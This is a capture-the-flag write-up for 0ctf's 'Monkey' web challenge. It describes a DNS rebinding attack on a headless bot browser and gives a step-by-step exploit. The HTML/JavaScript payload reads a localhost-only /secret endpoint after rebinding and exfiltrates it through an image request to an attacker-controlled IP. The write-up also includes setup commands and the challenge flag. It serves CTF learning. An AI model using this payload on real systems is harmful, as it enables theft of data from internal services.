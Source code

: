 
### Monkey (Web 4)

#### Vulnerability

Generally: browsers inherent weakness and susceptibility to DNS rebinding attacks and in particular: lack of DNS pinning countermeasure in Monkey "browser".

#### Exploitation

Overview:

We were given a clue that Monkey will staty on visited page for 2 minutes. So to exploit it we need to:

 - delay execution of our javascript for as long as possible (but of courese
   less than 2 minutes)
 - make sure that our domain has low TTL set (60 sec for example) 

When Monkey will be visting our domain it will be resolved to `4.3.2.1` IP but
after 110 sec (when the js will woke up from timeout) Monkey will need to do
additional DNS query (due to already expired TTL) to execute this line:
`xhttp.open("GET", "http://x.mydomain.com:8080/secret", false);` and this time
(after chainging DNS setting in between) the domain will resolve to `127.0.0.1`.

Prerequisites:

 - server with public IP (for example AWS t2.nano instance with IP 4.3.2.1)
 - domain name pointing to above machine (for example x.mydomain.com) with low
   TTL value (60 sec)

Prepare the server:

```
$ cat <<EOF > file.html
<html>
<head>
</head>
<body>
<script>
setTimeout(function(){
        xhttp = new XMLHttpRequest();
        xhttp.open("GET", "http://x.mydomain.com:8080/secret", false);
        xhttp.send();

        resp = xhttp.responseText;

        image = new Image();
        image.src='http://4.3.2.1:8080?secret=' + resp;
}, 110 * 1000);
</script>
</body>
</html>
EOF
```

    $ python3 -m http.server --bind 0.0.0.0 8080

Find prove of work string:

    $ links https://www.google.com/?q=<6_chars_from_monkey_page>+md5

Trigger Monkey to browse your `x.mydomain.com:8080/file.html`:

    $ curl http://202.120.7.200/run.php -d 'task=<string_from_prove_of_work>&url=<your_url>'

Change DNS setting:

In AWS Route 53 change: `x.mydomain.com -> 127.0.0.1`

Verify change of DNS setting:

    $ dig +nocmd +noall +answer x.mydomain.com

After 110 secs observe python's http.server logs for flag.

Flag: 0ctf{monkey_likes_banananananananaaaa}
